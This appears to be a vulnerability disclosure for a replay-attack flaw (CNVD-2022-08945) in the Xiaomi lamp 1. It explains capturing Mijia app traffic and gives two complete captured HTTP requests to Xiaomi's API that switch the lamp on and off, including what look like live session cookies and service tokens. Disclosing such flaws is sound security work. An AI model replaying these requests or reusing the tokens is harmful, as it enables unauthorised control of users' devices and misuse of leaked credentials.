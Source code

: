 # Xiaomi lamp 1 replay_attack

**CNVD ID**: CNVD-2022-08945

**Vender**: Xiaomi

**Vendor Homepage**: https://www.mi.com/

**Affect products**: Xiaomi lamp 1

**Firmware version**: 2.0.4_0066

**Hardware Link**: non-public

**Exploit Author**: [SkYe231](mailto:skye231@foxmail.com)@Hillstone

## describe

The Xiaomi lamp 1 has a replay attack vulnerability, which allows remote attackers to bypass the expected access restrictions through replay attacks and control the Xiaomi lamp 1 switch and other functions.

## detail

Take the replay attack to turn on the lamp as an example。Grab the [Mijia](https://app.mi.com/details?id=com.xiaomi.smarthome) APP traffic through **burpsutie**, click to turn on the desk lamp, and grab a traffic packet whose path is `/app/home/rpc/xxxxxx`, this is the data packet for controlling the desk lamp:

![image-20220105113225376](img/image-20220105113225376.png)

Put it in the replayer and just send this packet to turn on the lamp.

![image-20220105114115340](img/image-20220105114115340.png)

You can see that the data in the package is encrypted. By analyzing the apk, it is known that the encrypted json stores the key-value pair of the control information. Grab a light-on action package again:

![image-20220105165504569](img/image-20220105165504569.png)

The data ciphertext of the two data packets is different, but **both data packets can be replayed to turn on the lamp**.

## attack demo

The attack video process, please check the [demo video](./video.mp4) in the catalog

![image-20220105114455019](img/image-20220105114455019.png)

## EXP

**Power on**

```
POST /app/home/rpc/103026381 HTTP/2
Host: api.io.mi.com
Cookie: cUserId=z5I4yEoraBTq9saRx4EVTyhYmis; yetAnotherServiceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; serviceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; countryCode=CN; locale=zh_CN; timezone_id=Asia/Shanghai; timezone=GMT%2B08%3A00; is_daylight=0; dst_offset=0; channel=MI_APP_STORE
X-Xiaomi-Protocal-Flag-Cli: PROTOCAL-HTTP2
Miot-Encrypt-Algorithm: ENCRYPT-RC4
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 233
Miot-Accept-Encoding: GZIP
User-Agent: Android-9-7.0.705-OnePlus-ONE A2001-5367221d0f-ABCC519D26BD50706F361F21EB3FE3F36CD00D48-CN-A46D1E4F5C44F1ED76AD29CF103025E9-767BC40DA1FC6E417C4C25727B948117-SmartHome-MI_APP_STORE-ABCC519D26BD50706F361F21EB3FE3F36CD00D48|73DB42F5AC0EF95D26073AC75A1505CDEFD90DBE|-32

data=YHYNfLWS8LEBZBZZIdUR1X606sBwilQiZDMloVqjt%2BFVbPNjRnEIeB5DvZinL7Y%3D&rc4_hash__=XqPOZ7wCLzpDaEroeFmOWQXUiCoFIyOiy49GNQ%3D%3D&signature=zts1XCrmpHnd7ukhqB1Uv3am6kk%3D&_nonce=Cpz3G2Yb8koBoWqu&ssecurity=t1Inie9yjbbhN20Evsoq7g%3D%3D
```

**Power off**

```
POST /app/home/rpc/103026381 HTTP/2
Host: api.io.mi.com
Cookie: cUserId=z5I4yEoraBTq9saRx4EVTyhYmis; yetAnotherServiceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; serviceToken=kCgNCaLNEN8ZWgRWAB8rz80p30J0tUq9rczSyjT6Mppke/W/bE9kEgoOIWjkZHvxNorxDWGhhSOWrPIuuR9RV/w4z9I4Qr5L6yPzruhiYo3/OuM17Gjjg8j9p5arxV/c57cMbvPyq/BrAnsEWx4gtr/nHW1cNurliqCDnbVfnwQ=; countryCode=CN; locale=zh_CN; timezone_id=Asia/Shanghai; timezone=GMT%2B08%3A00; is_daylight=0; dst_offset=0; channel=MI_APP_STORE
X-Xiaomi-Protocal-Flag-Cli: PROTOCAL-HTTP2
Miot-Encrypt-Algorithm: ENCRYPT-RC4
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 235
Miot-Accept-Encoding: GZIP
User-Agent: Android-9-7.0.705-OnePlus-ONE A2001-5367221d0f-ABCC519D26BD50706F361F21EB3FE3F36CD00D48-CN-A46D1E4F5C44F1ED76AD29CF103025E9-767BC40DA1FC6E417C4C25727B948117-SmartHome-MI_APP_STORE-ABCC519D26BD50706F361F21EB3FE3F36CD00D48|73DB42F5AC0EF95D26073AC75A1505CDEFD90DBE|-32

data=AeYm0RhrXxd2UFW0RbrSq1vJg00F7etiu3HU%2B49SIY0KBAr5BZ4aWWtRRp%2BkUfpK&rc4_hash__=t1RrRFeKaIExpcqPD7fs29PwOaWF0%2BZDak92NA%3D%3D&signature=G5jfJlJkrYKectgL1ylXFWV6g1M%3D&_nonce=hlmICBR3G2cBoWqv&ssecurity=t1Inie9yjbbhN20Evsoq7g%3D%3D
```

